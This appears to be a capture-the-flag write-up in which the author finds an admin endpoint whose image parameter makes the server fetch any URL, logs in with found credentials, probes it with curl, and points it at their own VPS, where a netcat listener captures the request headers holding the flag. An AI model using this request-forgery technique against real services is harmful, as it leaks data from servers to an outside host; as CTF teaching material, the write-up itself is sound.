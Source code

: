 The first item is a URL to a new domain! When visiting that domain at `/admin`,
we are queried with a login prompt! We can use our `electionAdmin : pickles`
credentials here.

---

Once logged in, we're given a series of error messages telling us
which parameters we need to use on this endpoint :

```bash
$ curl http://admin-h1-202.herokuapp.com/admin
{"error":"Did not provide t query param"}

$ curl http://admin-h1-202.herokuapp.com/admin?t=one
{"error":"Did not provide name query param"}

$ curl http://admin-h1-202.herokuapp.com/admin?t=one&name=two
{"error":"Did not provide image query param"}

$ curl http://admin-h1-202.herokuapp.com/admin?t=one&name=two&image=three
{"error":"Looks like we can't get that image, try another one?"}
```

So the endpoint seems to be fetching an image from somewhere...
Two implementations come to mind :
- The endpoint fetches an image in its filesystem;
- The endpoint fetches an image through a URL

Using a URL as an image, we obtain a new behavior from the endpoint :
```
$ curl http://admin-h1-202.herokuapp.com/admin?t=test123&name=two&image=http://google.com
test123
```

So I guess the URL worked?

Assuming the endpoint sends a request using the provided URL in the `image`
parameter, we can setup a `netcat` listener on a VPS in order to inspect the
headers being sent from that request. Doing this sometimes allows us
to determine what backend is being used through headers such as the `User-Agent`.


Our listener, after pointing the `image` to our `VPS` :
```bash
$ nc -lvp 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from [54.196.99.208] port 80 [tcp/http] accepted (family 2, sport 43788)
GET / HTTP/1.1
Host: 159.203.173.168
User-Agent: Go-http-client/1.1
Challenge: Calling out Foul Play
Flag: flag{wow_look_at_u_with_ur_server_n_shit}
Accept-Encoding: gzip
```

> Flag : flag{wow_look_at_u_with_ur_server_n_shit}
